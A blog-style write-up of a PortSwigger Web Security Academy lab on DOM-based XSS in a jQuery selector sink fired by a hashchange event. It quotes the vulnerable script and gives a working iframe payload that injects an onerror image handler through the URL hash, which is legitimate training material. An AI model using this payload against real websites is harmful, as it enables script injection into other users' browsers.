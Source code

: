 # DOM XSS in jQuery selector sink using a hashchange event | Dec 29, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event), you'll learn: DOM XSS in jQuery selector sink using a hashchange event! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains a [DOM-based cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/dom-based) vulnerability on the home page. It uses jQuery's `$()` selector function to auto-scroll to a given post, whose title is passed via the `location.hash` property.

To solve the lab, deliver an exploit to the victim that calls the `print()` function in their browser.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-6/images/Pasted%20image%2020221229061609.png)

**View source page:**
```html
<script src="/resources/js/jquery_1-8-2.js"></script>
<script src="/resources/js/jqueryMigrate_1-4-1.js"></script>
<script>
    $(window).on('hashchange', function(){
        var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
        if (post) post.get(0).scrollIntoView();
    });
</script>
```

In here, we can see that **it uses jQuery's `$()` selector function to auto-scroll to a given post, whose title is passed via the `location.hash` property.**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-6/images/Pasted%20image%2020221229062028.png)

Now, since the `location.hash` is controlled by the user, we can try to exploit that.

To do so, we need to trigger the `hashchange` event handler without user interaction.

**For example, we can use an `<iframe>`:**
```html
<iframe src="https://0af4007404af60e5c17e12d500bb0047.web-security-academy.net/#" onload="this.src+='<img src=errorpls onerror=print()>'">
```

In here, the `iframe`'s `src` attribute points to the vulnerable page with an empty hash value. When the `iframe` is loaded, an XSS payload is appended to the hash, causing the `hashchange` event to fire.

**Let's use the exploit server to host the payload and deliver to the victim:**
```html
<html>
    <head>
        <title>XSS-6</title>
    </head>
    <body>
        <iframe src="https://0af4007404af60e5c17e12d500bb0047.web-security-academy.net/#" onload="this.src+='<img src=errorpls onerror=print()>'">
    </body>
</html>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-6/images/Pasted%20image%2020221229062830.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-6/images/Pasted%20image%2020221229062937.png)

We did it!

# What we've learned:

1. DOM XSS in jQuery selector sink using a hashchange event